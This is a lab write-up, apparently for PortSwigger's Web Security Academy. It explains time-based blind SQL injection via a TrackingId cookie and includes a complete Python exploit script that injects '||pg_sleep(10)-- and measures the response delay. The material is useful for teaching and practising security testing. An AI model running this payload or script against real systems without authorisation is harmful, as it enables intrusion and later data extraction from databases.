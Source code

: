 ```yaml
---
title: '14 SQLi Lab'
description: 'Blind SQL injection using time delays to infer information'
---
```



## Blind SQL injection with time delays

<div style="text-align: justify;">
  This lab demonstrates how to exploit a blind SQL injection vulnerability using time delays. The application uses a `TrackingId` cookie for analytics, but the results of the SQL query are not returned, and the application's response does not differ whether the query returns rows or errors. By injecting a conditional time delay, it is possible to infer that the SQL query was executed, which is a fundamental technique in blind SQL injection attacks.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The application is vulnerable via the `TrackingId` cookie.
- The payload `' || pg_sleep(10)--` introduces a 10-second delay.
- By measuring the response time, it can be confirmed that the SQL injection executed successfully.
- This technique can be extended to extract data one bit at a time in blind SQL injection attacks.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
import time

# ---------------------------
# Configuration
# ---------------------------

# Disable SSL warnings for lab/testing purposes
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Optional: route traffic through Burp Suite for inspection
PROXIES = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

# Time delay to trigger for blind SQL injection
TIME_DELAY = 10  # seconds

# ---------------------------
# Functions
# ---------------------------

def check_burp():
    """
    Verify that Burp Suite proxy is running.
    Exit if it's not reachable.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite proxy not running at 127.0.0.1:8080. Start it and retry.")
        sys.exit(1)
    print("[+] Burp Suite proxy detected.")


def send_sqli_request(url, delay=TIME_DELAY, proxies=PROXIES):
    """
    Send a time-based blind SQL injection payload via the TrackingId cookie.
    Measures response time to detect success.
    """
    payload = f"'||pg_sleep({delay})--"
    cookies = {"TrackingId": payload, "session": "dummy"}

    print(f"[+] Sending payload: {payload}")
    start_time = time.time()

    try:
        response = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
    except requests.exceptions.RequestException as e:
        print(f"[-] Request failed: {e}")
        return None

    elapsed = time.time() - start_time
    print(f"[+] Response time: {elapsed:.2f} seconds")

    # Check if response time indicates SQL injection
    if elapsed >= delay:
        print("[+] SQL Injection likely successful (time delay triggered).")
    else:
        print("[-] No significant delay detected. Payload may not have executed.")

    return elapsed


def main():
    # Main entry point. Validates arguments, checks Burp, and executes exploit.
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    print(f"[+] Target URL: {url}")

    # Optional: ensure Burp Suite proxy is running
    check_burp()

    # Execute the blind SQL injection test
    send_sqli_request(url)


# ---------------------------
# Entry point
# ---------------------------
if __name__ == "__main__":
    main()
```
